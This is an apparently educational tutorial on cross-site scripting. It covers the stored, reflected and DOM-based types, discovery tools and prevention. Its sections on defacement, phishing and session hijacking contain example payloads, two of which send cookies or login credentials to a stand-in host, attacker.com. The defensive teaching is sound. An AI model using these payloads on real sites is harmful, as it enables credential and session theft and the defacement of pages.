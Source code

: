## **1. Introduction to XSS**

- **Cross-Site Scripting (XSS)** is a web vulnerability that allows attackers to inject malicious scripts into web applications.
- These scripts are executed in a victim’s browser and can steal data, modify content, or perform other malicious actions.
- XSS is categorized into three types: **Stored XSS, Reflected XSS, and DOM-based XSS**.

---

## **2. Types of XSS Vulnerabilities**

### **A. Stored XSS (Persistent XSS)**

- Malicious scripts are permanently stored on a website (e.g., in a database, forum post, comment section).
- The script executes whenever a user visits the affected page.
- **Example Attack:** Injecting a `<script>` tag into a comment field that steals cookies.

### **B. Reflected XSS (Non-Persistent XSS)**

- The malicious script is embedded in a URL and executed when a victim clicks on the link.
- The server reflects the input without proper sanitization.
- **Example Attack:** A phishing email with a malicious URL that executes JavaScript when clicked.

### **C. DOM-based XSS**

- The attack manipulates the **DOM (Document Object Model)** of a webpage using JavaScript.
- The vulnerability occurs on the client side rather than the server.
- **Example Attack:** JavaScript modifying `document.URL` to inject a script.

---

## **3. XSS Discovery Techniques**

- **Manual Testing:** Inspect website input fields, URLs, and parameters for injection points.
- **Automated Tools:**
    - **Burp Suite** (Active Scanner)
    - **OWASP ZAP**
    - **XSS Hunter**
- **Payload Testing:**
    - `<script>alert(1)</script>`
    - `<img src=x onerror=alert(1)>`
    - `<svg onload=alert(1)>`

---

## **4. Defacing Attacks**

- **Goal:** Modify the appearance of a website using XSS.
- Attackers inject JavaScript to:
    - Change text, images, or styles.
    - Redirect users to a fake site.
    - Display offensive messages.

**Example:**

```html
<script>
document.body.innerHTML = "<h1>Hacked by XYZ</h1>";
</script>
```

---

## **5. Phishing Attacks using XSS**

- **Goal:** Steal login credentials by injecting a fake login form.
- **Techniques:**
    - Use XSS to replace the login form with a phishing form.
    - Redirect users to an attacker-controlled page.

**Example:**

```html
<script>
document.body.innerHTML = '<form action="http://attacker.com/steal" method="POST">Username: <input type="text" name="user"><br>Password: <input type="password" name="pass"><br><input type="submit"></form>';
</script>
```

**Mitigation:** Use **Content Security Policy (CSP)** and **same-origin policies**.

---

## **6. Session Hijacking via XSS**

- **Goal:** Steal a user's session cookie and impersonate them.
- **Technique:** Inject JavaScript to extract the session cookie and send it to an attacker.

**Example Attack:**

```html
<script>
document.location="http://attacker.com/steal?cookie="+document.cookie;
</script>
```

**Mitigation:**

- Use **HttpOnly** cookies (prevents JavaScript access).
- Implement **SameSite** attributes in cookies.
- Use **session expiration** mechanisms.

---

## **7. Preventing XSS in Front-end & Back-end**

### **Front-end Protections:**

✅ Escape user input before rendering (`innerText` instead of `innerHTML`).  
✅ Use **Content Security Policy (CSP)** to restrict script execution.  
✅ Implement **input validation** (e.g., allowlist input fields).

### **Back-end Protections:**

✅ Use **output encoding** (e.g., `htmlspecialchars()` in PHP, `html.escape()` in Python).  
✅ Implement **HTTPOnly cookies** to prevent cookie theft.  
✅ Use **security headers** (e.g., `X-XSS-Protection`, `CSP`).

---

## **Conclusion**

- XSS is a major security risk that can lead to data theft, defacement, phishing, and session hijacking.
- Attackers exploit XSS by injecting malicious JavaScript.
- Developers must implement both **front-end and back-end** security measures to prevent XSS attacks.

---

